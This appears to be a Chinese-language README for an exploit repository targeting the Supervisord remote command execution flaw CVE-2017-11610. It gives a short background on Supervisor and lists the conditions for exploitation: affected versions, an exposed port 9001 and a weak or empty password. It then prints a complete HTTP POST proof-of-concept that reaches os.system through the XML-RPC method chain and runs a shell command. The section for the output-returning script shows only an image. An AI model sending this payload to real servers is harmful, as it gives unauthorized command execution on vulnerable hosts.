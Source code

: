 ## Supervisord远程命令执行漏洞脚本（CVE-2017-11610）

### 漏洞简介

Supervisor 是一个用 Python 写的进程管理工具，可以很方便的用来在 UNIX-like 系统（不支持 Windows）下启动、重启（自动重启程序）、关闭进程（不仅仅是 Python 进程）

Supervisor 是一个 C/S 模型的程序，supervisord 是 server 端，supervisorctl 是 client 端，简单理解就是client输入supervisor的指令调用server端的API从而完成一些工作。

而Supervisor的Web的服务其实很多人会用的比较多，也就是supervisord的客户端，只要路由通，即可远程通过Web页面完成类似于supervisor的client端的操作。而通过Web界面的操作由XML-RPC接口实现，该漏洞也是出在XML-RPC接口对数据的处理上。



### 利用条件


Supervisor version 3.1.2至Supervisor version 3.3.2

开启Web服务且9001端口可被访问

密码为弱密码或空口令

### POC

```
POST /RPC2 HTTP/1.1
Host: localhost
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 213

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.warnings.linecache.os.system</methodName>
<params>
<param>
<string>touch /tmp/success</string>
</param>
</params>
</methodCall>
```

该poc无回显

### 回显脚本

![a](./img/a.png)